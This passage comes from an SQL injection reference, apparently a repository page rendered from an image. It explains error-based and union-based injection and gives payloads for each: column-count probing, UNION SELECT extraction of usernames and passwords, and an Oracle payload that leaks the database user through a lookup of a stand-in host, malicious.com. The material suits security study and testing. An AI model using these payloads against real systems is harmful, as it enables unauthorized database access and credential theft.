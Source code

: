 ### In-band SQLi

The attacker uses the same communication channel to launch the attack and retrieve the results. This is the most common and often easiest to exploit.

#### Error-based SQLi

* **Explanation**: Relies on error messages thrown by the database server to obtain information about the database structure (table names, column names, data types).
* **Use Case**: When the application displays verbose database errors to the user, an attacker can intentionally craft queries that cause errors, revealing details.
* **Payload Example (MySQL/SQL Server):**
    ```sql
    ' OR 1=1 AND (SELECT 1 FROM FOOBAR) --
    -- If FOOBAR doesn't exist, an error message might reveal that.
    ' UNION SELECT 1/0 --
    -- Triggers a division by zero error, which might reveal internal paths or data.
    ```
* **Payload Example (Oracle):**
    ```sql
    ' AND 1=UTL_INADDR.GET_HOST_ADDRESS('x'||(SELECT USER FROM DUAL)||'.malicious.com') --
    -- Can leak data via error messages if the 'x' concatenation creates an invalid hostname.
    ```

#### Union-based SQLi

* **Explanation**: Uses the `UNION` SQL operator to combine the results of multiple `SELECT` statements into a single result, appending the attacker's query results to the original legitimate query's results. Requires knowing the number and data types of columns in the original query.
* **Use Case**: Extracting data from other tables in the database once the number of columns and compatible data types are identified.
* **Payload Example (Determining Number of Columns):**
    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ...
    ' ORDER BY N--
    -- Keep incrementing N until an error occurs, indicating N-1 is the number of columns.

    ' UNION SELECT NULL,NULL,NULL--
    -- Test with the determined number of NULLs to match column count.
    ```
* **Payload Example (Determining Column Data Types/Extracting Data):**
    ```sql
    ' UNION SELECT 1, 'abc', NULL, 4--
    -- Test different data types (e.g., 'abc' for string, 1 for integer) until no error occurs.
    -- Once types are known, replace NULLs with actual column names to extract data.
    ' UNION SELECT username, password FROM users--
    ```

### Inferential (Blind) SQLi
